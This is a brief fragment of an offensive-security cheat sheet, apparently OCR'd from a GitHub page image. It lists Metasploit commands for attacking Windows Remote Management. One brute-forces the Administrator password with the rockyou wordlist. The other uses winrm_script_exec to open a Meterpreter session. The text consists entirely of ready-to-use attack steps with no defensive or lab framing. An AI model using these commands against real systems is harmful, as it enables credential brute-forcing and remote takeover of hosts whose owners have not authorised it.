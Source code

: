 Bruteforce :
```bash
# Metasploit Module :
use auxiliary/scanner/winrm/winrm_login

set USERNAME Administrator
set PASS_FILE /opt/rockyou.txt
```

Get a meterpreter session :
```bash
# Metasploit Module :
use exploit/windows/winrm/winrm_script_exec

set USERNAME Administrator
set PASSWORD password
set FORCE_VBS true
```
